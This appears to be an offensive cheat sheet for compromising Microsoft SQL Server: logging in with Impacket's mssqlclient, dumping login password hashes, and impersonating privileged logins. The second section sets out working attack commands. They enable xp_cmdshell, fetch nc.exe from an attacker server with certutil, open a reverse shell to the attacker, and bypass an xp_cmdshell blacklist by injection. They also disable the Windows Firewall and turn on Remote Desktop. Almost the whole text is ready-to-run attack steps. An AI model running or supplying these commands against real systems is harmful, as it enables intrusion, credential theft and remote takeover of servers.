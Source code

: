 ### **Introduction**

Microsoft SQL Server (MSSQL) is a relational database management system developed by Microsoft. It is designed to handle a wide range of data processing tasks within corporate environments. MSSQL uses SQL (Structured Query Language) to manage databases and process queries.

### **MSSQL Enumeration**

1.  Login using Windows authentication:  
    `python3 mssqlclient.py [USERNAME]@[IP-ADDRESS] -windows-auth`
2.  Login without Windows authentication:  
    `python3 mssqlclient.py [DOMAIN]/[USERNAME]@[IP-ADDRESS]`
3.  List SQL user accounts and their status: 
    ```sql
    select sp.name as login, sp.type_desc as login_type, sl.password_hash, sp.create_date, sp.modify_date, case when sp.is_disabled = 1 then 'Disabled' else 'Enabled' end as status from sys.server_principals sp left join sys.sql_logins sl on sp.principal_id = sl.principal_id where sp.type not in ('G', 'R') order by sp.name;
    ```

4.  Show all databases:  
    `SELECT name FROM master.dbo.sysdatabases`  

    ??? info "NOTE"

        Default databases include `master`, `tempdb`, `model`, and `msdb`.

5.  Switch to specific database:  
    `use [DATABASE-NAME];`
6.  Bypass "access denied" error (OPTIONAL):  
    `ERROR: Line 1: The server principal "MAXIM\hackfast" is not able to access the database "[DATABASE-NAME]" under the current security context.`
7.  Find users with impersonation privileges (OPTIONAL):  
    `SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'`
8.  Impersonate another login (OPTIONAL):  
    `EXECUTE AS LOGIN = '[LOGIN-NAME]'`
9.  Switch to specific database:  
    `use [DATABASE-NAME]`
10. List all tables in the database:  
    `SELECT * FROM [DATABASE-NAME].INFORMATION_SCHEMA.TABLES;`
11. Query a specific table:  
    `select * from [TABLE-NAME];`

### **Access and Reverse Shell Techniques**

1.  Login to MSSQL using Windows authentication:  
    `python3 mssqlclient.py [USERNAME]@[IP-ADDRESS] -windows-auth`
2.  Login to MSSQL without Windows authentication:  
    `python3 mssqlclient.py [DOMAIN]/[USERNAME]@[IP-ADDRESS]`
3.  Check if xp_cmdshell is enabled:  
    `SELECT * FROM sys.configurations WHERE name = 'xp_cmdshell';`
4.  Enable advanced options to allow setup for xp_cmdshell:  
    `EXEC sp_configure 'show advanced options', 1; RECONFIGURE;`
5.  Enable xp_cmdshell to allow SQL Server to execute command-line operations:  
    `EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;`
6.  Set up the HTTP server to host nc.exe, create a C:\\temp folder on the target, transfer nc.exe, and execute it for a reverse shell:  
    `xp_cmdshell 'mkdir C:\temp'`,`go`
7.  Download nc.exe to the Target Machine:  
    `xp_cmdshell 'certutil -split -urlcache -f http://[IP-ADRESS]/nc.exe C:\temp\nc.exe'`,`go`
8.  Confirm that nc.exe has been placed on the target system:  
    `xp_cmdshell 'dir C:\temp'`,`go`
9.  Execute nc.exe to establish a reverse shell to the attacker's machine:  
    `xp_cmdshell 'C:\temp\nc.exe [IP-ADRESS] 443 -e cmd.exe'` ,`go`
10. Bypass blacklisted xp_cmdshell:  
    `'; DECLARE @x AS VARCHAR(100)='xp_cmdshell'; EXEC @x 'ping [IP-ADRESS]' —`
11. Disable the Windows Firewall to reduce defenses against external attacks:  
    `xp_cmdshell 'netsh firewall set opmode disable';`
12. Modify the registry to enable Remote Desktop, allowing remote access to the system:  
    `xp_cmdshell 'reg add "HKEY_LOCAL_MACHINE\\System\\CurrentControlSet\\Control\\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f';`